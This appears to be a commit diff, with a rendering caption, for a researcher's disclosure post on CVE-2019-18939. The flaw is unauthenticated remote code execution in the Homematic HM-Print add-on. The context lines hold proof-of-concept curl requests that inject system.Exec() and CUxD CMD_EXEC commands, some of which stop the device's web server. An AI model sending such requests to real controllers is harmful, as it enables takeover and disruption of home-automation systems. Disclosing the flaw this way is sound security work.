

Before and after one commit to psytester/psytester.github.io, a Jekyll site: the page built from _posts/hacking_and_pentests/CVEs/2019-11-13-CVE-2019-18939.md, in a window 1280 px wide and 900 px high, scrolled down 979 px. Shown: the whole window, without its empty margins (248-1034 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2019-11-13-CVE-2019-18939.md

````diff
--- a/_posts/hacking_and_pentests/CVEs/2019-11-13-CVE-2019-18939.md
+++ b/_posts/hacking_and_pentests/CVEs/2019-11-13-CVE-2019-18939.md
@@ -1,7 +1,7 @@
 ---
 layout: post
 title:  "CVE-2019-18939 eQ-3 Homematic AddOn 'HM-Print' version 1.2a and prior on CCU2 and CCU3 allows Remote Code Execution by unauthenticated attackers with access to the web interface by usage of exec.cgi & exec1.cgi script, which executes TCL script content from HTTP POST request"
-date:   2019-11-14 19:35:00 MEST
+date:   2019-11-14 19:40:00 MEST
 author: 'psytester'
 ---
 
@@ -47,7 +47,8 @@
 
 The following HTTP requests in Web Browser illustrates the attack vectors:
 
-1. RCE with Homematic undocumented internal system.Exec() call on exec.cgi or exec1.cgi:<br>
+1. RCE with Homematic undocumented internal system.Exec() call on exec.cgi or exec1.cgi:
+
 ```
 curl -X POST -i 'http://1.2.3.4/addons/print/exec.cgi' --data 'var x=system.Exec("sleep 4;");'
 curl -X POST -i 'http://1.2.3.4/addons/print/exec.cgi' --data 'var x=system.Exec("/bin/touch /tmp/testfile;");'
@@ -58,7 +59,8 @@
 curl -X POST -i 'http://1.2.3.4/addons/print/exec1.cgi' --data 'var x=system.Exec("/etc/init.d/S50lighttpd stop;");'
 ```
 
-2. If also the popular CUxD AddOn is installed, another RCE is possible by abuse of the virtual CUxD'CMD_EXEC' device call on exec.cgi or exec1.cgi:<br>
+2. If also the popular CUxD AddOn is installed, another RCE is possible by abuse of the virtual CUxD'CMD_EXEC' device call on exec.cgi or exec1.cgi:
+
 ```
 curl -X POST -i 'http://1.2.3.4/addons/print/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/bin/touch /tmp/testfile");'
 curl -X POST -i 'http://1.2.3.4/addons/print/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/etc/init.d/S50lighttpd stop");'
````
